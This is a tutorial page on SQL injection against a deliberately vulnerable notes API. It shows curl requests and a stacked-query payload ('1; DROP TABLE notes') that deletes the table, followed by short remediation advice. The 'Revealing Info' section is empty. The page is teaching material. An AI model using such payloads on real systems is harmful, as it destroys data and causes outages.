 ```yaml
---
bookCollapseSection: false
---
```


# Anatomy of a Vulnerability

In this section we will create a SQL injection on vulnerable code, so that we
can perform malicious actions on the application. This shows how SQL injection
works, and explains how vulnerabilities in your application can be exploited and cause
harm to your organization.

## Dropping a Table via SQL Injection

In this example, I will show how to drop the table when running a
curl request and injecting malicious commands. I will show how
to exploit the `DELETE` note api call.

First let's go over a standard flow. We can create some notes via the API:

```bash
$ curl -X POST http://{LOAD_BALANCER_IP}/{APPLICATION_PATH}/add -d '{"message": "ZAP"}'

{
  "Success": "Note added!"
}

$ curl -X POST http://{LOAD_BALANCER_IP}/{APPLICATION_PATH}/add -d '{"message": "YEET"}'

{
  "Success": "Note added!"
}
```

Now we can delete it with the DELETE api-call:

```bash
$ curl -X DELETE http://{LOAD_BALANCER_IP}/{APPLICATION_PATH}/delete\?id\=2
```

Now let's see what happens when a hacker 🏴‍☠️ tries to exploit this api
path and see if they can perform some malicious activity:

**Revealing Info**

**Service Outage**

```bash
$ curl -X DELETE http://{LOAD_BALANCER_IP}/{APPLICATION_PATH}/delete\?id\=1%3B%20DROP%20TABLE%20notes
```

The above also drops the notes table, causing information loss and downtime to the application. This can
be critical to a business function.

This means that in the UI, a user can simply add the following to drop the table:

```sql
1; DROP TABLE notes;
```

### Resolution

There are a few things we can do to resolve this:

1. Allow only one query to execute at a time

This functionality of executing multiple queries is not required by our application.
Therefore we should remove it. 

## Additional Considerations

1. Input Validation in Frontend
2. Input Validation in Backend